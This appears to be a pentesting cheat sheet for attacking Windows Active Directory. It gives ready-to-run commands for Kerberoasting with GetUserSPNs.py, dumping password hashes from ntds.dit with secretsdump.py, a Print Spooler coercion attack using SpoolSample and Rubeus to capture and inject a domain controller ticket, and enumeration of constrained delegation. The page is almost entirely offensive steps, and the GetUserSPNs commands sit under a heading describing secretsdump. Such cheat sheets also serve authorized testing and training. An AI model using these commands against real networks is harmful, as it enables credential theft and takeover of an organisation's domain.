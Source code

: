 &nbsp;
<span style="font-size: 25px; color:white"><b>secretsdump.py</b></span>
Perform various techniques to dump secrets from the remote machine without executing any agent there.
```shell 
GetUserSPNs.py -dc-ip <IP> -request '<DOMAIN>'
```

```shell
GetUserSPNs.py -dc-ip <IP> <DOMAIN>/<Username>:<password>
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Dump Passwords Hashes from ntds.dit</b></span>
<span style="color:red">ntds.dit</span> = file that contains data from the AD.
Take the System hive and the ntds.dit file and dump that hashes:
```shell
secretsdump.py -system registry/SYSTEM -ntds ntds.dit LOCAL > backup_ad_dump
```
---
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>PrintSpooler</b></span>
See if you can access the pipe:
```shell
dir \\cdc01\pipe\spoolss
```
think cdc01 should be the domain controller machine account. If you see the service spoolss under 'Name', the service is running and it's accessible.
Download <span style="color:red">SpoolSample.exe</span> from github (or wherever) and compile it, then run from an administrative cmd:
```
Rubeus.exe monitor /interval:5 /filteruser:CDC01$
```
Then open a second administrative cmd and run:
```
SpoolSample.exe CDC01 APPSRV01 
```
You should get a TGT after few seconds.

Inject it to memory:
```
Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```
With the TGT of the domain controller machine account injected into memory, we can perform actions in the context of that TGT.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Constrained Delegations</b></span>
Find constrained delegations with PowerView:
```
Get-DomainUser -TrustedToAuth
```
Check samsccountname,msds-allowedtodelegateto and useraccountcontrol=TRUSTED_TO_AUTH_FOR_DELEGATION.
Generate NTLM Hash from a password:
```
.\Rubeus.exe hash /password:<password>
```
